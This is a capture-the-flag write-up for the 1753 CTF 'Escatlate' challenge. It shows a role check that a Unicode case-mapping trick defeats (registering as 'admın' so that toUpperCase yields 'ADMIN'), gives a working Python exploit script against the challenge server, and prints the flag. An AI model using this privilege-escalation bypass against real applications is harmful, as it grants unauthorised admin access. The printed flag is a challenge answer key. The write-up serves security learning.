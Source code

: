 # 1753 CTF - Escatlate Flag #2

## Approach

We need an `ADMIN` role to get the second flag, let's first see how the server checks the `ADMIN` role:

During the registration:

```js
app.post('/api/register', (req, res) => {

    // ...

    if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');
```

During the verification:

```js
app.get('/api/message', (req, res) => {
    if(req.user.role.toUpperCase() === 'ADMIN')
        return res.json({ message: `Hi Admin! Your flag is ${process.env.ADMIN_FLAG}` });
```

To bypass the check, we need some JavaScript tricks related to `toUpperCase` and `toLowerCase`. Take a look at the code below:

```js
for (let i = 128; i < 65536; i++) {
  for (let ch of "abcdefghijklmnopqrstuvwxyz") {
    if (String.fromCharCode(i).toUpperCase() === ch.toUpperCase()) {
      console.log(
        i,
        `${String.fromCharCode(i)}.toUpperCase() = ${ch.toUpperCase()}`
      );
    }
    if (String.fromCharCode(i).toLowerCase() === ch) {
      console.log(i, `${String.fromCharCode(i)}.toLowerCase() = ${ch}`);
    }
  }
}
// 305 ı.toUpperCase() = I
// 383 ſ.toUpperCase() = S
// 8490 K.toLowerCase() = k
```

This a cheat sheet of this trick, and for this challenge we can use `ı` for `admın` to bypass the check during registration, and `"admın".toUpperCase()` will be `"ADMIN"`.

```python
import requests
import random

url = "https://escatlate-52bc47e034fa.1753ctf.com/api/"

rnd = str(random.randint(100000, 999999))
print(rnd)

resp = requests.post(url + "register", json={
    "username": rnd,
    "password": rnd,
    "role": "admın"  # <-- 'ı' is not 'i'!
})
print(resp.status_code, resp.text)

token = resp.json()["token"]

resp = requests.get(url + "message", headers={
    "X-Token": token
})
print(resp.text)  # {"message":"Hi Admin! Your flag is 1753c{w3ll_n0w_th4h_w4s_n0t_soooo_obv1ous}"}
```

## Flag

```
1753c{w3ll_n0w_th4h_w4s_n0t_soooo_obv1ous}
```
